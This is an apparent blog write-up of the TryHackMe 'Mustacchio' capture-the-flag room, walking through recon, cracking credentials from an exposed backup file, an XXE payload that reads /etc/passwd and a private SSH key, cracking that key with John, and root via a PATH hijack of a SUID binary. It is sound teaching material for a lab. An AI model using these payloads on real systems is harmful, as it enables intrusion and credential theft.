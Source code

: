 ```yaml
---
layout: post
title:  "TryHackMe - Mustacchio"
date:   2021-06-14 10:30:46 +0200
categories: tryhackme
---
```


Here is the link to the CTF: [https://tryhackme.com/room/mustacchio](https://tryhackme.com/room/mustacchio)

# Initial recon
I started a scan with `rustscan` and `nmap`.
```bash
rustscan -r 1-65535 -a "TARGETIP" -- -sV -sC -T5 -Pn --script=vuln -oN nmap.log
```
This is a table of the exposed revices:

| Port | Service |
| :--: | :-----: |
| 22 | OpenSSH 7.2p2 Ubuntu |
| 80 | Apache httpd 2.4.18 | 
| 8765 | nginx 1.10.3 | 

# Apache webserver
By checking the source code of `index.html`, we found paths to some `js` and `css` scripts.

![2021-06-12_23-06.png](/assets/43defb6036184e7bab085e0e79eb656d.png)

I therefore checked the `/custom/js/` path and we find out that there's a file called `user.bak`

![37b4374bc68bc00446003932a1720230.png](/assets/00e0beedf5884ebdbd8109af0c1eac38.png)

I downloaded it with `wget` and realized that it was a SQLite database.

For reading it properly, we would need `sqlite3`.

Those are the simples steps that I used to read the file:

 - I opened the file by issuing `sqlit3 users.bak`,
 - Listed the tables names by using `.tables` command
 - Read the content of the whole table with a simple SQL query: 

```sql
 SELECT * FROM users;
```

![0a686ca233e6dcc9bb99a7daf06d871b.png](/assets/748860b49f7142c3a1de94d3e234774f.png)

And indeed, we have some credentials. We just have to crack the hash.

I used [jhf](https://github.com/jackrendor/jhf) to quickly identify the hashed password.
```
jhf "0a686ca233e6dcc9bb99a7daf06d871b"
```
![7bdcbbe932b7024bf30f53c1106049db.png](/assets/ab1abe7e90354a8792eff447c73e1ddb.png)

Now we got the credentials for the user `admin`.

# nginx webserver

Accessing the nginx service, we get access to a login page.
![e40bcb1b7b6fd004978e19c8540785ae.png](/assets/7bd8bf12f4ab4bcd9563a43826363ca3.png)

I immediately used the credentials that I found about the `admin` user and I successfully logged in.

![03d3d76e6321f11c16dbdf51e1be1353.png](/assets/80eaac5e808949ffbe42f7d4b40f5249.png)


I started to analyze the html code and the `Submit` button calls a function called `checktarea`. Therefore I tried to look for references to that funciton and this is what I found:
```js
//document.cookie = "Example=/auth/dontforget.bak"; 
function checktarea() {
	let tbox = document.getElementById("box").value;
	if (tbox == null || tbox.length == 0) {
		alert("Insert XML Code!")
	}
}
```

The alert that displayes `Insert XML Code!` made my think a lot.
All I had to do is just understand what tags is it looking for when I press the submit button.

I blidly typed my name in the text box and clicked `Submit`.
![866a2469ae203a90cb90f1fcbf3f8983.png](/assets/e202a99dcfcd40e889689e312569f94b.png)

3 new information appears right below the submit button.
-  name
-  author
-  comment

I then understood that those 3 are the tags that the webpage is looking for, so what I did next was to craft my payload to confirm that it's vulnerable to `XXE`.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE jack [<!ENTITY rickroll SYSTEM "file:///etc/passwd"> ]>
<jackrendor>
    <name>&rickroll;</name>
</jackrendor>
```

Important note here: 
- `[<!ENTITY rickroll SYSTEM "file:///etc/passwd"> ]` triest to execute the command between the quotation mark and puts the result in the `rickroll` variable.

- `<name>&rickroll;</name>` takes the value of the variable `rickroll` and it "assign" it to the tag "name" that later will be displayed to us.


![b5ae2fa7eb623d49495a476368579b27.png](/assets/fec35fc801af427489bb02302cd5b391.png)

Indeed, it worked.
I was able to successfully read arbitrary files from the server.

Reading the `passwd` file, I noticed that there are some "unusual users". I tried to get the `id_rsa` key of every user until I tried to get `Barry`'s one. And I succeded. The only issue is that it's ecrypted.

![0e3000bc277d1540fb3fe8f2249d210e.png](/assets/e983c233a14b405eb26c97826f348a1b.png)

I saved the content of the file locally as `barry.key` and converted it in order to make `john` able to crack it.

```bash
chmod 600 barry.key
ssh2john.py barry.key > crackme.txt
john -w=/usr/share/wordlists/rockyou.txt crackme.txt
```

![a0f56854b5a2fad4e837bbe684d2ed82.png](/assets/2cfa0937cfec4012aaea7f757f3de01a.png)

Now we just have to confirm the credentials:
```bash
ssh -i barry.key barry@TARGET_IP
```
and insert the password of the cracked key when asked.

# Privilege Escalation

I instanlty check for potential files with SUID on by running the following command:
```bash
find / -type f -perm /4000 2>/dev/null
```
This gave me a list of files that can I can pontentially run as other users.
![303bf3ae8d90d1ac822344bdc0a0d10c.png](/assets/4fd91247f91047c0ae6b6ab2032bf48a.png)

`live_log` looked interesting and I tried to run it by specifying the full path of the binary.

![e82554aca3b779eb7131b2937a59284c.png](/assets/202167d0051b44099268193e64cbac80.png)

This kind of output made me think about some sort of binary that calls a linux command to read the nginx logs. I checked first who was the owner of the file.

![ecd0bd63075811e740c8684538608115.png](/assets/83bba35bb5354d308e0e03a998327fb3.png)

So I can run that executable as root. 

After that, I checked what the file was doing by just filtering for all the printable characters with `strings`.

![68a16d3ecd431e62d9826b286fdf78f9.png](/assets/f4a7fb328e8b4810b566893651634e17.png)

And I was not disappointed at all.

Now, since in the binary is not specifying the full path of the binary, we can abuse about the `PATH` enviorement variable to trick the executable into executing our custom `tail` executable.


I made things easy for me and I just created a script inside `barry`'s home called `tail`, put the following code in it:

```bash
#!/bin/bash
/bin/bash -p
```

> Note: the `-p` flag is needed so we will be able to impersonificate correctly the owner of the vulnerable exetuable. For more information, check [this](https://stackoverflow.com/a/32456814) answer on stackoverflow

make it executable:

```bash
chmod +x tail
```

and exporting the home folder of `barry` as the first path to check when looking for binaries:

```bash
export PATH=$(pwd):$PATH
```


and execute again the binary

```bash
/home/joe/live_log
```

![cf115accf3bc47c2eaa01e08bbabf577.png](/assets/18edd64c218d4cb6bd224b1cd3c49651.png)

And we're root :) 
